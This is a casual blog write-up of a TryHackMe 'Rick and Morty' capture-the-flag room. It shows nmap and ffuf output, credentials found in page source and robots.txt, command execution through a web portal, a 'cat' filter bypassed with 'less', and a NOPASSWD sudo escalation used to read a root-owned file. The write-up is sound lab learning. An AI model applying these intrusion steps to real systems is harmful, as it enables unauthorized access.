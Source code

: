 ```yaml
---
title: "Rick and Morty"
date: 2022-09-20T16:00:31+01:00
draft: false
categories:
  - TryHackMe
---
```


<img src="rm.jpeg" width=200 height=200 alt="rm">

My very first ctf in the theme of one of my favorites cartoon

I was not bright enough to take notes doing it so I have to re-do it

## Enumeration

### nmap

```
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 1b:a2:55:2a:98:72:8b:b1:04:a2:92:04:71:e1:63:e8 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQD1h54qxFjtSFt0u71oKQVr2fj0sna5xoDSQTcxNlW7467woiH/Ufj4/ccHN32iwsx6FIMJJPRrdy2LUd38DybkLKSnqn1B6UR0LQ8n3QwnKK54ad7PwdwqXsostLASIXSFdjXo25SttYwh4BUzaNjmjihF5o63Qj533Jx0y8Zbbw0vaqFNzBPBYt3+JqkIF5IiBGfiR4zodHOpvi2g9g6AXAl32OhDvd5kqTRVIRDenk69SeR7awKZo+v0WMdJvrUJIriXhlJ72QmAzJo+D/dZba2lsuM8RR7RJnpfA4swwP+t8x3XztlV4EcOmgdf2bA/bIstkTUF+OcKTvaKFo3j
|   256 33:a4:33:d9:d8:14:45:e5:52:be:f6:f7:ed:93:f4:f7 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBCtRsw3waYPfZ8fzVb3nZb5CDEnzgzwDBIWyMoye7TIE1KWDrD3V3kkqCSyKNKA+I0OGxd3Tcg7Ce3sEuj0gpXk=
|   256 2f:9f:a8:14:a6:aa:72:5d:6c:47:5e:8d:30:63:8f:3d (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIPtbWlf0LCQkWzV1oNlITISE9ack8cFh0hoaSH0SNGlC
80/tcp open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Rick is sup4r cool
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

### ffuf

```
.htpasswd               [Status: 403, Size: 296, Words: 22, Lines: 12]
.hta                    [Status: 403, Size: 291, Words: 22, Lines: 12]
.htaccess               [Status: 403, Size: 296, Words: 22, Lines: 12]
assets                  [Status: 301, Size: 313, Words: 20, Lines: 10]
index.html              [Status: 200, Size: 1062, Words: 148, Lines: 38]
robots.txt              [Status: 200, Size: 17, Words: 1, Lines: 2]
server-status           [Status: 403, Size: 300, Words: 22, Lines: 12]
```

lol `robots.txt` is litterally put under or nose

On the website you can see rick turned into a pickle again

haha...funniest thing I ever saw

checking the source code (always)

```
<!--

    Note to self, remember username!

    Username: R1ckRul3s

  -->

```

`robots.txt` just contains `Wubbalubbadubdub`

might be the password! we try to ssh with those...permission denied!

More website enumeration then...I fuzz for more dir or files

```
.htpasswd               [Status: 403, Size: 300, Words: 22, Lines: 12]
                        [Status: 403, Size: 291, Words: 22, Lines: 12]
.hta                    [Status: 403, Size: 295, Words: 22, Lines: 12]
.htaccess               [Status: 403, Size: 300, Words: 22, Lines: 12]
denied                  [Status: 302, Size: 0, Words: 1, Lines: 1]
login                   [Status: 200, Size: 882, Words: 89, Lines: 26]
portal                  [Status: 302, Size: 0, Words: 1, Lines: 1]

```
`login.php` and `portal.php` look interresting!

We login and reach portal...there we have command execution

I immediatelly try `ls`

```
Sup3rS3cretPickl3Ingred.txt
assets
clue.txt
denied.php
index.html
login.php
portal.php
robots.txt
```

The first ingredient is there...so lets read it

Denied! haha..poor meeseeks

there is a filter for some commands `cat` doesnt work but you can use `less`

```
less Sup3rS3cretPickl3Ingred.txt
...
```

`clue.txt` says `Look around the file system for the other ingredient.`

use commands to look around...always check home

hehe this part was a bit tricky but I already completed the linux strenght room

```
total 12
drwxrwxrwx 2 root root 4096 Feb 10  2019 .
drwxr-xr-x 4 root root 4096 Feb 10  2019 ..
-rwxrwxrwx 1 root root   13 Feb 10  2019 second ingredients
```

It was not two folders or files its just one file named "second ingredients"

```
less "/home/rick/second ingredients"
...
```
so now there is only one ingredient left...looking around doesnt help

hmm...wait a second...

## privilege escalation ?

```
sudo -l

Matching Defaults entries for www-data on ip-10-10-153-33.eu-west-1.compute.internal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ip-10-10-153-33.eu-west-1.compute.internal:
    (ALL) NOPASSWD: ALL
```

LMAO! we are litterally root! yeah now we know where it is

```
sudo less /root/3rd.txt
...
```
Done! Wubbalubbadubdub!!





